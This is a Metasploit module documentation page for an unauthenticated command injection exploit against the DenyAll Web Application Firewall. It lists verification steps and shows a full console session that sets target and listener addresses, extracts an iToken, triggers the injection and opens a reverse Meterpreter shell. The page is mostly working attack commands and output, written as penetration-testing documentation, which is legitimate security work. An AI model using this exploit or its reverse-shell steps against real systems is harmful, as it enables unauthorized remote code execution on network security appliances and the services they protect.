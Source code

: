 ## Vulnerable Application

This module exploits the command injection vulnerability of DenyAll Web Application Firewall. Unauthenticated users can execute a terminal command under the context of the web server user.

It's possible to have trial demo for 15 days at Amazon Marketplace.
[https://aws.amazon.com/marketplace/pp/B01N4Q0INA?qid=1505806897911](https://aws.amazon.com/marketplace/pp/B01N4Q0INA?qid=1505806897911)

You just need to follow instruction above URL.

## Verification Steps

A successful check of the exploit will look like this:

- [ ] Start `msfconsole`
- [ ] `use use exploit/linux/http/denyall_exec`
- [ ] Set `RHOST`
- [ ] Set `LHOST`
- [ ] Run `check`
- [ ] **Verify** that you are seeing `The target appears to be vulnerable.`
- [ ] Run `exploit`
- [ ] **Verify** that you are seeing `iToken` value extraction.
- [ ] **Verify** that you are getting `meterpreter` session.

## Scenarios

```
msf > use exploit/linux/http/denyall_exec 
msf exploit(denyall_exec) > 
msf exploit(denyall_exec) > set RHOST 35.176.123.128
RHOST => 35.176.123.128
msf exploit(denyall_exec) > set LHOST 35.12.3.3
LHOST => 35.12.3.3
msf exploit(denyall_exec) > check
[*] 35.176.123.128:3001 The target appears to be vulnerable.
msf exploit(denyall_exec) > exploit 

[*] Started reverse TCP handler on 35.12.3.3:4444 
[*] Extracting iToken value from unauthenticated accessible endpoint.
[+] Awesome. iToken value = n84b214ad1f53df0bd6ffa3dcfe8059a
[*] Trigerring command injection vulnerability with  iToken value.
[*] Sending stage (40411 bytes) to 35.176.123.128
[*] Meterpreter session 1 opened (35.176.123.128:4444 -> 35.12.3.3:60556) at 2017-09-19 14:31:52 +0300

meterpreter > pwd
/var/log/denyall/reverseproxy
meterpreter >
```
